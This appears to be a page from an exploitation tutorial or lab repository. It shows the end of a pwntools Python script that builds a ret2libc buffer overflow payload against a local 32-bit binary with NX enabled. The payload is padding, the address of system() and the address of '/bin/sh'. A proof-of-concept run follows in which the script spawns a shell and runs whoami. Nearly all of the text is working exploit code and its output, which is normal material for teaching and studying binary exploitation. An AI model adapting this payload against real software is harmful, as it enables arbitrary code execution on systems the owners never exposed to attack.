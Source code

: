 ```python
    libc_base = 0xf7df7000

    binsh = int(libc.search("/bin/sh").next())
    print("[+] Shell located at offset from libc: %s" % hex(binsh))
    shell_addr = libc_base + binsh
    print("[+] Shell is at address: %s" % hex(shell_addr))
    print("[+] libc.system() has a %s offset from libc" % hex(libc.symbols["system"]))
    system_call = int(libc_base + libc.symbols["system"])
    print("[+] system call is at address: %s" % hex(system_call))

    payload = 'A' * 268
    payload += p32(system_call)
    payload += 'JUNK'
    payload += p32(shell_addr)

    if args.dbg:
        r = gdb.debug([executable, payload],
                        gdbscript="""
                        b *totally_secure+53
                        continue""")
    else:
        r = process([executable, payload])
    r.interactive()

if __name__ == '__main__':
    main()
    sys.exit(0)
```

Proof of concept:

    python bypass_ret2libc.py INFO
    [*] '/DEP/binary/vuln_with_nx'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [*] '/lib/i386-linux-gnu/libc-2.24.so'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [+] Shell located at offset from libc: 0x15fa0f
    [+] Shell is at address: 0xf7f56a0f
    [+] libc.system() has a 0x3b060 offset from libc
    [+] system call is at address: 0xf7e32060
    [+] Starting local process './binary/vuln_with_nx': pid 65828
    [*] Switching to interactive mode
    Hello, I'm your friendly & totally secure binary :)!
    What is your name?
    Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA` ��JUNK\x0fj��!
    $ whoami
    pwnbox
    $  
